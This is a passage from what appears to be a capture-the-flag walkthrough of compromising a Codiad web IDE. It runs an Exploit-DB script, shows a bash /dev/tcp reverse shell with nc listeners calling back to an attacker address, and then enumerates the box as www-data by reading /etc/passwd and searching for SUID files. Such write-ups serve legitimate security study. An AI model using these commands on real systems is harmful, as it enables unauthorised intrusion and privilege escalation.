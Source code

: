 * `searchsploit -m multiple/webapps/49705.py`
```sh
        WangYihang <wangyihanger@gmail.com>
[whackx@manbox ide]$ python 49705.py http://10.10.124.33:62337/ john <password> 10.9.47.11 4448 linux
[+] Please execute the following command on your vps:
echo 'bash -c "bash -i >/dev/tcp/10.9.47.11/4449 0>&1 2>&1"' | nc -lnvp 4448
nc -lnvp 4449
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
``` 

* Here comes the shell, connected as `www-data`
![Alt text](../include/ide/reverse_shell.png?raw=true "connecting")

* Enumerating the machine
```sh
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ide:/var/www/html/codiad/components/filemanager$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]
drac:x:1000:1000:drac:/home/drac:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
www-data@ide:/var/www/html/codiad/components/filemanager$ sudo --version
sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@ide:/var/www/html/codiad/components/filemanager$ uname -a
uname -a
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@ide:/var/www/html/codiad/components/filemanager$ find / -perm /6000 2>/dev/null
<ponents/filemanager$ find / -perm /6000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd
/usr/local/share/fonts
/usr/local/share/emacs
/usr/local/share/emacs/site-lisp
/usr/local/lib/python3.6
```